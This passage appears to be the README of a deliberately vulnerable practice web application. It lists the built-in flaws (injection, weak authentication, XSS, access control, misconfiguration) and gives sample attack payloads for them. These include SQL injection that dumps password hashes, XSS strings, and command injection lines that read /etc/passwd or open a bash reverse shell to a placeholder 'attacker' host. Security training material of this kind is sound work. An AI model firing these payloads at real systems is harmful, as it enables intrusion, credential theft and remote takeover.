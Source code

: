 ### Injection Vulnerabilities ✅
- **SQL Injection**: 8 endpoints (basic to expert levels)
- **NoSQL Injection**: 8 endpoints (basic to expert levels)  
- **Command Injection**: 12 endpoints (basic to expert levels)

### Authentication Vulnerabilities ✅
- **Weak Password Storage**: 4 endpoints (plain text, MD5, SHA1, Base64)
- **Weak JWT**: 4 endpoints (weak secrets, long expiration, etc.)
- **Session Management**: 4 endpoints (predictable IDs, weak validation)

### XSS Vulnerabilities ✅
- **Reflected XSS**: 4 endpoints (basic to expert levels)
- **Stored XSS**: 4 endpoints (basic to expert levels)
- **DOM XSS**: 4 endpoints (basic to expert levels)
- **XSS in JSON**: 4 endpoints (basic to expert levels)

### Access Control Vulnerabilities ✅
- **IDOR**: Implemented in wallet and user routes
- **Privilege Escalation**: Admin bypass scenarios
- **Missing Authorization**: Unprotected endpoints

### Security Misconfiguration ✅
- **Verbose Error Messages**: Detailed stack traces
- **Misconfigured CORS**: Overly permissive settings
- **Default Configurations**: Weak defaults

---

## 9. Testing Scenarios ✅

### SQL Injection Examples
```bash
# Basic: admin' OR '1'='1
# Medium: admin' UNION SELECT 1,2,3,4,5--
# Hard: admin' AND (SELECT COUNT(*) FROM users) > 0--
# Expert: admin' UNION SELECT username,password_hash,email,is_admin,1 FROM users--
```

### XSS Examples
```bash
# Basic: <script>alert('XSS')</script>
# Medium: <img src=x onerror=alert('XSS')>
# Hard: <svg onload=alert('XSS')>
# Expert: <iframe src="javascript:alert('XSS')">
```

### Command Injection Examples
```bash
# Basic: 127.0.0.1; ls -la
# Medium: 127.0.0.1 && whoami
# Hard: 127.0.0.1 | cat /etc/passwd
# Expert: 127.0.0.1; bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'
```

---